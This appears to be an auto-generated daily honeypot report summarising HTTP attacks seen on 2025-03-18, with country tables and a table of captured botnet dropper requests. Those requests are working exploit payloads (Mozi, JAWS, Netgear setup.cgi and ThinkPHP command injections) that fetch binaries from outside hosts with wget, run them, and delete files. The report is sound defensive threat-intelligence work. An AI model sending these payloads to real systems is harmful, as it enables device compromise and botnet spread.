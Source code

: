 ```yaml
---
title: "Report: 2025-03-18 "
date: 2025-03-18
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-18
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| SC               | Singapore          |
| US               | Dubai              |
| CN               | Georgia            |
| NL               |                    |
| DE               |                    |
| PT               |                    |
| GB               |                    |
| DE               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                       |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 123.10.143.78   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                         |
| 47.93.212.99    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsselfrep;chmod+777+/tmp/jawsselfrep;sh+/tmp/jaws.selfrep HTTP/1.1                                                                                                         |
| 27.215.85.227   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://27.215.85.227:60597/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                  |
| 182.116.91.161  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://182.116.91.161:33909/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                 |
| 204.76.203.18   | GET /wget HTTP/1.1                                                                                                                                                                                                            |
| 123.157.136.106 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1 |
